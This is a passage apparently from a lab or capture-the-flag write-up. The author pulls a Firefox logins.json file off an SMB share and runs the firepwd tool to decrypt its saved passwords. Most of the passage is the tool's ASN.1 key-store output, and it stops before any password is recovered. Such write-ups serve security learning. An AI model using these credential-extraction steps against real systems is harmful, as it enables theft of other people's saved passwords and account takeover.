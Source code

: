 ````
                7863807 blocks of size 4096. 3851018 blocks available                                              
smb: \share\> get logins.json                                                                                      
getting file \share\logins.json of size 600 as logins.json (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)         
smb: \share\> exit     
```


Which contain passwords for the mayor that I can crack with

https://github.com/lclevy/firepwd

```
└─$ python firepwd/firepwd.py
globalSalt: b'2d45b7ac4e42209a23235ecf825c018e0382291d'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'9e0554a19d22a773d0c5497efe7a80641fa25e2e73b2ddf3fbbca61d801c116d'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'b0da1db2992a21a74e7946f23021'
       }
     }
   }
   OCTETSTRING b'a713739460522b20433f7d0b49bfabdb'
 }
clearText b'70617373776f72642d636865636b0202'
password check? True
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'f1f75a319f519506d39986e15fe90ade00280879f00ae1e036422f001afc6267'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'dbd2424eabcf4be30180860055c8'
       }
     }
   }
````